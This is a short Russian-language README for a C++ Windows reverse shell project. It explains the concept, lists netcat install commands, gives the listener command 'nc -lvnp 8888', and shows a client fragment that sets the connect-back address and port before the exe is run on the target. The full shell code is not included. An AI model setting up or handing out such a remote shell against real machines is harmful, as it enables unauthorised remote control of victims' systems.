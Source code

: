 # Windows Reverse Shell

Простая реализация Reverse Shell на C++ для Windows.

## Описание

В качестве сервера используется Natcat.

Reverse Shell (обратная оболочка) — это тип сетевого соединения, при котором уязвимая система инициирует исходящее соединение с удалённым сервером (в отличие от обычного shell, где сервер ожидает подключения от клиента). Это используется, например, в целях удалённого управления или эксплуатации системы.

## Запуск

### Сервер
1. Установите natcat:

#### Для Arch Linux и производных (например, Manjaro):
```bash
sudo pacman -S gnu-netcat
```

#### Для Ubuntu/Debian и производных:
```bash
sudo apt update
sudo apt install netcat
```

#### Для Fedora:
```bash
sudo dnf install nc
```

#### Для CentOS/RHEL (8 и новее):
```bash
sudo dnf install nc
```

#### Для CentOS/RHEL (7 и старее):
```bash
sudo yum install nc
```

2. Запустите сервер netcat на выбранном порте:

```bash
nc -lvnp 8888
```

### Клиент

1. Настройте порт и адрес удалённого сервера natcat в файле client.cpp:

```C++
server.sin_port = htons(8888); // Порт, на котором работает сервер

if (inet_pton(AF_INET, "127.0.0.1", &server.sin_addr) <= 0) {
```

2. Скомпилируйте клиент

3. Запустите исполняемый exe файл на клиенте
